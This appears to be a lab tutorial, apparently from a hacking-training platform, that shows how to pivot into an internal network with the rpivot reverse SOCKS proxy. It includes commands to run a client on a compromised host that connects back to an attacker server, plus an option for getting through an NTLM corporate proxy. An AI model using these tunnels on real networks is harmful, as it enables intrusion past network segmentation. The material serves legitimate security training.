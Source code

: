 ___
[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

![](https://academy.hackthebox.com/storage/modules/158/77.png)

We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

#### Cloning rpivot

Web Server Pivoting with Rpivot

```shell-session
D4rsel@htb[/htb]$ sudo git clone https://github.com/klsecservices/rpivot.git
```

#### Installing Python2.7

Web Server Pivoting with Rpivot

```shell-session
D4rsel@htb[/htb]$ sudo apt-get install python2.7
```

We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

#### Running server.py from the Attack Host

Web Server Pivoting with Rpivot

```shell-session
D4rsel@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

#### Transfering rpivot to the Target

Web Server Pivoting with Rpivot

```shell-session
D4rsel@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

#### Running client.py from Pivot Target

Web Server Pivoting with Rpivot

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

#### Confirming Connection is Established

Web Server Pivoting with Rpivot

```shell-session
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

#### Browsing to the Target Webserver using Proxychains

Web Server Pivoting with Rpivot

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

![](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

Web Server Pivoting with Rpivot

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```